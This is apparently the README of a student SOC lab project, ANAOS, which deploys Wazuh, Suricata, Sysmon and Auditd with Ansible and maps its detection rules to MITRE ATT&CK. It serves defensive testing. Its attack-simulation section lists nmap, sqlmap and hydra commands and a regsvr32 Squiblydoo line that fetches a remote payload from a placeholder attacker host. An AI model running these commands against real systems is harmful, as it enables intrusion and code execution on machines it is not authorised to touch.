



# ANAOS — Automated Network & Analysis Operations System

> A fully automated, open-source Security Operations Centre (SOC) built with Wazuh, Suricata, Sysmon, Auditd, and Ansible — deployable in under 15 minutes.

---

## Table of Contents

- [Overview](#overview)
- [Architecture](#architecture)
- [Components](#components)
- [Prerequisites](#prerequisites)
- [Quick Start](#quick-start)
- [Deployment](#deployment)
  - [1. Linux Endpoints (Wazuh Agent + Auditd)](#1-linux-endpoints-wazuh-agent--auditd)
  - [2. Windows Endpoint (Wazuh Agent + Sysmon)](#2-windows-endpoint-wazuh-agent--sysmon)
  - [3. ANAOS Dashboard](#3-anaos-dashboard)
- [Detection Rules](#detection-rules)
- [Attack Coverage (MITRE ATT&CK)](#attack-coverage-mitre-attck)
- [Metrics & Results](#metrics--results)
- [Project Structure](#project-structure)
- [Limitations](#limitations)
- [Future Work](#future-work)
- [Authors](#authors)
- [License](#license)

---

## Overview

ANAOS addresses three core barriers that prevent small and medium enterprises from adopting structured security monitoring:

| Problem | ANAOS Solution |
|---|---|
| Deployment complexity (60+ manual steps) | Ansible IaC playbooks — full stack in ~12 min |
| Coverage opacity (unknown ATT&CK blind spots) | Custom rules mapped to ATT&CK, visualised in dashboard |
| Alert triage friction (raw JSON overload) | `anaos_gui.py` — real-time triage with MTTD & FPR tracking |

**Experimental results** across four live attack scenarios:

| Metric | Result | Target |
|---|---|---|
| Detection Rate (Recall) | **100%** | ≥ 80% |
| False Positive Rate | **0.0%** | ≤ 5% |
| MTTD (network layer) | **≈ 0 s** | ≤ 60 s |
| ATT&CK Coverage Score | **100% (4/4)** | ≥ 75% |
| Deployment Time | **≈ 12 min** | ≤ 15 min |

---

## Architecture

### Network Topology

The lab spans four isolated virtual network zones. All inter-zone traffic is routed exclusively through pfSense running Suricata IDS in inline inspection mode.



| Zone | Hosts | Purpose |
|---|---|---|
| WAN | Kali Linux | Attacker machine (Nmap, Hydra, SQLmap) |
| DMZ | OWASP Juice Shop (Ubuntu 22.04) | Vulnerable web app target + Wazuh Agent + Auditd |
| LAN1 | Windows 10, Ubuntu 22.04 | Monitored endpoints (Sysmon, Auditd, Wazuh Agents) |
| LAN2 | Wazuh Manager, Ansible Server | SOC infrastructure + ANAOS dashboard |

### Data Pipeline

Events flow from endpoints through Wazuh agents to the manager, where they are correlated against custom rules and surfaced in the ANAOS dashboard.




- **Windows Sysmon** events travel via Wazuh agent over encrypted TCP (port 1514)
- **Linux Auditd** records are tailed by the agent's `localfile` directive
- **Suricata** writes EVE-JSON alerts forwarded via UDP syslog (port 514) to the Wazuh Manager for agentless ingestion
- Alerts at level ≥ 3 are written to `alerts.json` and parsed in real time by `anaos_gui.py`

---

## Components

| Component | Version | Role |
|---|---|---|
| [Wazuh](https://documentation.wazuh.com) | 4.9 | SIEM / XDR engine, alert correlation |
| [Suricata](https://docs.suricata.io) | 7.x | Network IDS, EVE-JSON output |
| [pfSense](https://www.pfsense.org) | 2.7 | Firewall + Suricata host |
| [Sysmon](https://learn.microsoft.com/sysinternals/downloads/sysmon) | v14 | Windows host telemetry (EID 1, 3, 10) |
| [Auditd](https://linux.die.net/man/8/auditd) | — | Linux host telemetry |
| [Ansible](https://docs.ansible.com) | — | Zero-touch infrastructure provisioning |
| `anaos_gui.py` | — | Python analyst dashboard |

---

## Prerequisites

- **Hypervisor:** VMware Workstation Pro 17 (or any hypervisor supporting multiple VMnet switches)
- **Ansible control node:** Ubuntu 22.04 with Ansible ≥ 2.14
- **Python:** 3.10+ (for `anaos_gui.py`)
- **Network:** Four isolated virtual network segments (WAN, DMZ, LAN1, LAN2)
- **Wazuh Manager** already installed and reachable from LAN2

> **Note:** Replace all `<PLACEHOLDER>` values in inventory and playbooks with your actual IPs before running.

---

## Quick Start

```bash
# 1. Clone the repository
git clone https://github.com/Ismail-Bajjou/anaos-soc.git
cd anaos-soc

# 2. Configure your inventory
cp ansible/inventory.ini.example ansible/inventory.ini
# Edit ansible/inventory.ini with your actual host IPs

# 3. Deploy Linux endpoints
ansible-playbook -i ansible/inventory.ini ansible/playbooks/deploy_wazuh_agent_linux.yml

# 4. Deploy Windows endpoint
ansible-playbook -i ansible/inventory.ini ansible/playbooks/deploy_windows_endpoint.yml

# 5. Configure Auditd
ansible-playbook -i ansible/inventory.ini ansible/playbooks/configure_auditd.yml

# 6. Push Suricata rules to pfSense (manual step — see Deployment section)

# 7. Deploy custom Wazuh rules
cp wazuh/local_rules.xml /var/ossec/etc/rules/local_rules.xml
systemctl restart wazuh-manager

# 8. Launch the dashboard
cd dashboard
python3 anaos_gui.py
# Open http://localhost:8080 in your browser
```

---

## Deployment

### 1. Linux Endpoints (Wazuh Agent + Auditd)

Edit `ansible/inventory.ini`:
```ini
[linux_endpoints]
juice-shop    ansible_host=<DMZ_IP>
ubuntu-lan1   ansible_host=<LAN1_UBUNTU_IP>

[linux_endpoints:vars]
ansible_user=ubuntu
ansible_ssh_private_key_file=~/.ssh/id_rsa
```

Run:
```bash
ansible-playbook -i ansible/inventory.ini \
  -e "wazuh_manager=<WAZUH_MANAGER_IP> wazuh_version=4.9.0-1" \
  ansible/playbooks/deploy_wazuh_agent_linux.yml

ansible-playbook -i ansible/inventory.ini \
  ansible/playbooks/configure_auditd.yml
```

### 2. Windows Endpoint (Wazuh Agent + Sysmon)

1. Place `Sysmon64.exe` and `sysmonconfig.xml` in `ansible/files/`
2. Host the Wazuh MSI installer on a file share accessible from the Windows host
3. Run:

```bash
ansible-playbook -i ansible/inventory.ini \
  -e "wazuh_manager=<WAZUH_MANAGER_IP>" \
  ansible/playbooks/deploy_windows_endpoint.yml
```

The playbook installs Sysmon with the [SwiftOnSecurity](https://github.com/SwiftOnSecurity/sysmon-config) baseline config (extended for Squiblydoo detection).

### 3. ANAOS Dashboard

The dashboard reads `/var/ossec/logs/alerts/alerts.json` on the Wazuh Manager. Run it on the same host or mount the file remotely.

```bash
cd dashboard
python3 anaos_gui.py
# Open http://localhost:8080 in your browser```
Once running, the dashboard provides real-time alert triage, ATT&CK-tagged enrichment, and live MTTD / FPR computation:
```


---

## Detection Rules

Custom rules live in `wazuh/local_rules.xml`. All rules are ATT&CK-tagged and chain on parent SIDs to minimise false positives.

| Rule ID | ATT&CK ID | Technique | Parent SID | Level |
|---|---|---|---|---|
| 100115 | T1110 | Brute Force: Web Login | Suricata 86600 | 12 (CRITICAL) |
| 100116 | T1190 | Exploit Public-Facing Application | Suricata 86601 | 12 (CRITICAL) |
| 100051 | T1218.010 | Signed Binary Proxy: Regsvr32 | Wazuh 61603 (Sysmon) | 12 (CRITICAL) |
| 100104 | T1595.002 | Active Scanning: Vulnerability Scanning | web group | 10 (HIGH) |

**Suricata rules** (`suricata/anaos.rules`) provide the parent SIDs that Wazuh rules chain on:

- **SID 86600** — HTTP POST threshold ≥ 10 req/5 s (brute force detection)
- **SID 86601** — PCRE SQL metacharacter pattern in POST body

To deploy Suricata rules, copy `suricata/anaos.rules` to pfSense via the Suricata package UI or SCP to `/usr/local/etc/suricata/rules/`.

---

## Attack Coverage (MITRE ATT&CK)

| ID | Technique | Tactic | Data Source | Detected |
|---|---|---|---|---|
| T1595.002 | Active Scanning | Reconnaissance | Suricata / Web logs | ✅ |
| T1190 | Exploit Public-Facing App | Initial Access | Suricata / HTTP | ✅ |
| T1110 | Brute Force | Credential Access | Suricata / HTTP | ✅ |
| T1218.010 | Regsvr32 (Squiblydoo) | Defense Evasion | Sysmon EID 1 | ✅ |

Attack simulation commands used in the lab:

```bash
# Reconnaissance (T1595.002)
nmap -sS -sV -p 1-65535 --open <DMZ_SUBNET>/24
nmap --script=http-enum,http-title <JUICESHOP_IP>

# SQL Injection (T1190)
sqlmap -u "http://<JUICESHOP_IP>:3000/rest/products/search?q=test" \
  --level=3 --risk=2 --dbs --batch

# Brute Force (T1110)
hydra -L users.txt -P rockyou.txt <JUICESHOP_IP> http-post-form \
  "/rest/user/login:email=^USER^&password=^PASS^:401" -t 4 -w 5

# Squiblydoo (T1218.010) — Windows target
regsvr32.exe /s /n /u /i:http://<ATTACKER_IP>:8080/payload.sct scrobj.dll
```

> ⚠️ **For authorised lab use only.** Never run these commands against systems you do not own.

---

## Metrics & Results

ANAOS computes three primary metrics in real time via `anaos_gui.py`:

**Detection Rate (Recall)**
```
Recall = |TP| / (|TP| + |FN|)
```

**False Positive Rate**
```
FPR = |FP| / (|TP| + |FP|)
```

**Mean Time to Detect (MTTD)**
```
MTTD = (1/|TP|) × Σ (t_alert,i − t0,i)
```
where `t0` is the timestamp of the first event observed from the attacker's source IP.

Full results from the experimental session are documented in the [research paper](docs/ANAOS_Research_Chapter.pdf).

---

## Project Structure

```
anaos/
├── ansible/
│   ├── inventory.ini.example
│   └── playbooks/
│       ├── deploy_wazuh_agent_linux.yml
│       ├── deploy_windows_endpoint.yml
│       └── configure_auditd.yml
├── wazuh/
│   └── local_rules.xml
├── suricata/
│   └── anaos.rules
├── dashboard/
│   ├── anaos_gui.py
├── docs/
│   ├── images/
│   │   ├── topology.png        ← network topology diagram
│   │   ├── pipeline.png        ← data pipeline flowchart
│   │   └── dashboard.png       ← dashboard screenshot
│   └── ANAOS_Research_Chapter.pdf
└── README.md
```

---

## Limitations

- **Controlled environment only** — No background traffic; real-world FPR may be higher, especially for the threshold-based brute-force rule
- **Signature-based detection** — Novel or obfuscated attack variants may evade current rules
- **4 ATT&CK techniques** — Covers ~2% of the Enterprise matrix; lateral movement, persistence, and C2 are not yet covered
- **Single-analyst triage** — FPR validity would benefit from multi-analyst inter-rater scoring

---

## Future Work

- **FW1:** Expand rule set to ≥ 20 ATT&CK techniques (priority: T1055, T1003, T1059, T1083)
- **FW2:** SOAR integration — automated pfSense block rules on confirmed true-positive alerts
- **FW3:** Behavioural anomaly layer — ML-based outlier detection to catch signature-evading variants

---

## Authors

| Name | 
|---|
| Ismail BAJJOU | 
| Ousmane ISSA ADAM | 
| Othmane NECHCHADI | 
| Yassine SARIH | 
| Akram ZERBANE | 

Supervised by **Dr. Yassine Maleh**
ENSA Khouribga · Cybersecurity Research · 2025–2026

---

## License

Full results from the experimental session are documented in the [research paper](docs/ANAOS_Research_Chapter.pdf).
This project is released under the [MIT License](LICENSE).

> Built with open-source tools. Tested in a controlled virtual lab. Use responsibly.
